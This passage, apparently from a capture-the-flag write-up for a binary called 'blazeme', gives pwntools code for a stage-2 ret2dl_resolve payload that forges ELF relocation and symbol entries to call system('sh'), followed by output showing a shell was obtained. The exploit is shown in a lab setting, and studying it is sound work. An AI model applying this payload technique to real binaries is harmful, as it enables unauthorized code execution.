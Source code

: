 Finally craft all stage 2 payload:

```python
system_param_offset = bss_segment + 0x64
system_str = "system\x00"
system_param_str = "sh\x00"
stage2 = flat(
    "JUNK", 
    p32(_dl_resolve), 
    p32(elf32_Rel_offset), 
    "JUNK", 
    p32(system_param_offset), 
    elf32_Rel_data, 
    "A"*align, 
    elf32_Sym_data, 
    system_str)
pad = "B" * (100 - len(stage2))
stage2 += flat(
    pad, 
    system_param_str)
pad = "C" * (0x80 - len(stage2))
stage2 += flat(pad)

r.send(stage2)
```

#### Pwned

```terminal
❯ python solve2.py
[+] Starting local process './blazeme': pid 6768
[*] Stage 1 > Read stage2 payload and jump to stage2
[*] Stage 2 > Ret2dl_resolve
[+] Pwned!
[*] Switching to interactive mode
$ uname -a
Linux fokt 5.0.0-31-generic #33~18.04.1-Ubuntu SMP Tue Oct 1 10:20:39 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```
